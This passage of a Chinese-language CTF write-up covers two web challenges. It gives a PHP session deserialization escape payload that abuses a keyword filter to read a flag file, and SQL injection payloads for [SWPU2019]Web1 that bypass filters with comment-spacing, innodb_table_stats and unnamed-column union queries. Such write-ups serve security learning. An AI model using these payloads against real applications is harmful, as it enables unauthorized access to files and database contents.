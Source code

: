```
a:3:{s:4:"user";s:24:"flagflagflagflagflagflag";s:8:"function";s:59:"a";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";s:2:"dd";s:1:"a";}";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";}
```

将flag进行了过滤

```
a:3:{s:4:"user";s:24:"#";s:8:"function";s:59:"a#";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";s:2:"dd";s:1:"a";}";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";}
```

由于`s:24`会往后边读取`24`位字符`";s:8:"function";s:59:"a`做为`user`的属性值, #号包含起来的部分，读取到a的时候结束，后面的;进行了闭合，相当于吞掉了一个属性和值，接着会继续读取我们构造的img，由于总共三个属性，我在后边加上了一个属性和值，后边的序列化结果直接就被丢弃

payload：

```
_SESSION[user]=flagflagflagflagflagflag&_SESSION[function]=a";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";s:2:"dd";s:1:"a";}
```

得到了flag in `/d0g3_fllllllag`

`/d0g3_fllllllag` `base64编码` `L2QwZzNfZmxsbGxsbGFn`

payload：

```
_SESSION[user]=flagflagflagflagflagflag&_SESSION[function]=a";s:3:"img";s:20:"L2QwZzNfZmxsbGxsbGFn";s:2:"dd";s:1:"a";}
```

[参考](https://www.cnblogs.com/v2ish1yan/articles/16118319.html)

## [SWPU2019]Web1

`group by`判断列数

```
1'/**/group/**/by/**/n,
```

information_schema还有or，因为or被过滤，因此也无法使用。所以这里只能采用innodb_index_stats和 innodb_table_stats来进行绕过。payload：

```
1'union/**/select/**/1,2,group_concat(table_name),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22/**/from/**/mysql.innodb_table_stats/**/where/**/database_name='web1'&&'1'='1
```

进行匿名获取flag值，payload：

```
1'/**/union/**/select/**/1,(select/**/group_concat(c)/**/from/**/(select/**/1/**/as/**/a,2/**/as/**/b,3/**/as/**/c/**/union/**/select/**/*/**/from/**/users)n),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22&&'1'='1
```

，或者payload：

```
1'/**/union/**/select/**/1,(select/**/group_concat(`3`)/**/from/**/(select/**/1,2,3/**/union/**/select/**/*/**/from/**/users)n),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22&&'1'='1
```
